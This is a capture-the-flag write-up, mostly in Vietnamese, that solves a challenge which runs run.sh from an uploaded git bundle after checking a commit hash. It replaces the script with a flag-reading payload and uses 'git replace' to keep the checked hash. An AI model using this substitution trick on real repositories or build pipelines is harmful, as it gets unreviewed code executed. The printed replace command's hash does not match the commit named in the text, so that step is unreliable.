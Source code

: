 # Mô tả

In the spirit of open source I publish my code, though I wish there existed a better version control than project-latest-final-final-2.tar.zst.

I love checking out what other people do with my code, but in this cruel world you need to take precautions.

Therefore, I only check out the good code I have written myself.

Looking forward to your submissions!

# Phân tích

Decompress file `project-latest-final-final-2.tar.zst`

```bash
unzstd project-latest-final-final-2.tar.zst
tar -xf project-latest-final-final-2.tar
```

Ra một file git `check-this-out` trong đó có file `run.sh` và chút nữa khi phân tích `main.py` của server sẽ biết được ta phải sử dụng file bash này để đọc flag

**run.sh**

```bash
#!/usr/bin/env bash

echo "Well hello, friends :^)"
```



**main.py**

Nói chung là server sẽ yêu cầu người dùng upload lên một file `.bundle` từ cái git `check-this-out` và sau đó kiểm tra hash của nó có bằng **36a168b7942eedf14b33912db25357cb254457e9** hay không, nếu bằng thì sẽ chạy `run.sh`

**Quy trình xác thực**

```
mkdir local
git clone --mirror your-bundle.bundle local/.git
cd local
git config --bool core.bare false
git rev-list 36a168b7942eedf14b33912db25357cb254457e9
git checkout 36a168b7942eedf14b33912db25357cb254457e9 && ./run.sh
```

Thử không chỉnh sửa gì trong file git hết và tạo một file bundle tải lên server xem như nào

```
git bundle create test.bundle --all
```

`--all` để bundle toàn bộ cái repo

**Gửi test.bundle**

![image](./pcs/testbundle.PNG)

Đúng intended rồi, giờ sẽ phải làm như nào đó để không thay đổi hash mà vẫn commit được cái `run.sh` đọc flag lên server

**Chỉnh sửa run.sh**

```bash
#!/usr/bin/env bash

cd /
ls
pwd 
file flag
cat flag
```

Kiểm tra commit gốc được checkout là gì, ở đây là:

```bash
$ git log --oneline --graph
* 36a168b (HEAD -> master) Initial commit
```

Chỉnh lại `run.sh` sau đó `git add và commit`

```bash
┌──(nam㉿DESKTOP-NF3DDH9)-[/mnt/c/Users/admin/Desktop/check-this-out/check-this-out]
└─$ vim run.sh

┌──(nam㉿DESKTOP-NF3DDH9)-[/mnt/c/Users/admin/Desktop/check-this-out/check-this-out]
└─$ git add run.sh

┌──(nam㉿DESKTOP-NF3DDH9)-[/mnt/c/Users/admin/Desktop/check-this-out/check-this-out]
└─$ git commit -m lol
[master a59ed5d] lol
 1 file changed, 2 insertions(+)

┌──(nam㉿DESKTOP-NF3DDH9)-[/mnt/c/Users/admin/Desktop/check-this-out/check-this-out]
└─$ git log
commit a59ed5d13c5179d3f6f8607e4829b01ca8620098 (HEAD -> master)
Author: ndhnam13 <namna9921234@gmail.com>
Date:   Tue Jun 24 18:42:24 2025 +0700

    lol

commit 36a168b7942eedf14b33912db25357cb254457e9
Author: I-Al-Istannen <i-al-istannen@users.noreply.github.com>
Date:   Sat Jun 7 20:42:38 2025 +0200

    Initial commit
```

Có thể thấy commit mới là `a59ed5d13c5179d3f6f8607e4829b01ca8620098`

Sau đó ta có thể lợi dụng lệnh `git replace` để đặt commit `36a168b7942eedf14b33912db25357cb254457e9` bằng với `a59ed5d13c5179d3f6f8607e4829b01ca8620098`

```bash
$ git replace 36a168b7942eedf14b33912db25357cb254457e9 b2d39fa7caf8c5fff19724e90df37925cde319ba
```

Sau đó tạo lại bundle

```bash
$ git bundle create flag.bundle --all
```

Nhờ `git replace`, nội dung thật sự được ghi vào bundle sẽ là commit `a59ed5d13c5179d3f6f8607e4829b01ca8620098`, nhưng vẫn gán hash là `36a168b7942eedf14b33912db25357cb254457e9`

**Lưu ý nếu muốn chỉnh sửa `run.sh` nhiều lần để kiểm tra payload thì sau mỗi khi commit sẽ phải xoá file trong `.git/refs/replace` rồi mới `git replace` lần nữa**

# Flag

Gửi `flag.bundle` lên server

![image](./pcs/flag.PNG)

`GPNCTF{8raNcH,tA6,c0mm17, 8R4nCh,taG,C0MMIt, IS The WAy of THe GIT}`